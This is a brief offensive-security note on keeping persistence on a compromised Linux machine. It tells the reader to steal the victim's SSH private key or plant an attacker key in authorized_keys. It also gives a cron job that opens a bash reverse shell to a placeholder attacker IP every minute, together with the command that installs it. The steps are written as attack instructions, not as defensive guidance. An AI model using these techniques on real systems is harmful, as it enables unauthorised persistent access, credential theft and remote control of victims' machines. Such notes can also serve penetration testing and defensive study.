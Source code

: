 ## Persistence via SSH Keys
- Acces the machine
- Go to `~/.ssh`
- Copy the private key `id_rsa` to attackers machine (you can use #tools/utility/scp)
- Also you can create your own key pair and paste the public key to `~/.ssh/authorized_keys` on the target machine

## Persitence via CRON Jobs
- Create a cron job to reach out to you all the time
	```
	echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attackers_ip>/1234 0>&1'" > cron
	``` 
- Add this to the cronjob
	```
	crontab -i cron
	```